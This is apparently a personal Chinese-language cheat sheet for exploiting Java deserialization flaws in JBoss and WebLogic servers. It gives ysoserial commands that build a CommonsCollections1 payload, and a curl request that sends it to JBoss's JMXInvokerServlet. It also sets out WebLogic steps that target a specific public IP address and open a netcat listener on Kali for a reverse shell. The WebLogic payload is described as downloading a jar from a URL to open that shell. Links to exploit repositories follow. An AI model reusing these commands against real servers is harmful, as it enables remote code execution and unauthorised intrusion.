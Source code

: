 ## JavaDeserialization
不怎麼能用。

--

###jboss：
#####一
```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >~/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '~/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```
[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  
####二  
https://github.com/njfox/Java-Deserialization-Exploit  
暫未測試。


###weblogic：  
```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
▶ python weblogic.py 116.208.2.162 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```
Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  

[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

--

通用漏洞可以從這裡總結：  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/njfox/Java-Deserialization-Exploit  
http://zone.wooyun.org/content/23905  